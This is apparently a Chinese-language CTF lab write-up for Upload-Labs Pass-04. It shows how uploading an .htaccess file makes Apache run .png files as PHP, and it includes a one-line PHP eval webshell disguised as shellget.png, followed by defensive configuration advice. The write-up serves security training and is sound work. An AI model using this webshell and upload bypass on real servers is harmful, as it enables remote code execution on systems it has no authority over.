

# Upload-Labs Pass-04：.htaccess 绕过上传

| 项目 | 内容 |
|---|---|
| 靶场 | BUUCTF · Upload-Labs-Linux |
| 难度 | Easy~Medium |
| 攻击机 | Kali 2026.1 |
| 涉及技术 | 文件上传漏洞 / .htaccess 解析利用 |
| 一句话总结 | 黑名单漏了 .htaccess，先传 .htaccess 让 .png 按 PHP 解析，再传伪装成 .png 的一句话木马 |

## 漏洞原理

这一关黑名单把 PHP 相关的扩展名基本都封了，还做了小写转换，所以 Pass-03 那种 `.php5`、`.pHtml` 大小写绕过全部失效。**但漏了 `.htaccess`**。

`.htaccess` 本身不是脚本文件，只是 Apache 配置文件，不在黑名单里。一旦传到 `uploads/` 目录，可以让该目录下所有 `.png` 都被 Apache 当成 PHP 解析。

## 攻击过程

1. 创建 `.htaccess` 文件，写入：

   ```apache
   AddType application/x-httpd-php .png
   ```

   或者用命令在桌面生成：

   ```bash
   cd /home/kali/Desktop
   echo 'AddType application/x-httpd-php .png' > .htaccess
   ```

   > 提示：`.htaccess` 以点 `.` 开头，Linux 里叫 dotfile（隐藏文件），文件管理器和 `ls` 默认都不显示，按 `Ctrl+H` 可显示隐藏文件。

   

2. 先上传 `.htaccess`，再上传 `shellget.png`。

## 利用原理

- 上传的 `shellget.png` 内容其实是 `<?php @eval($_POST['cmd']);?>`；
- `.htaccess` 让 Apache 把该目录下所有 `.png` 按 PHP 解析，所以它能当 Webshell 用。

## 防御方法

- 上传目录不给 Apache 覆盖配置的权限（`AllowOverride None`）；
- 禁止上传 `.htaccess` 等配置文件，采用扩展名白名单；
- 上传目录禁止脚本解析/执行。
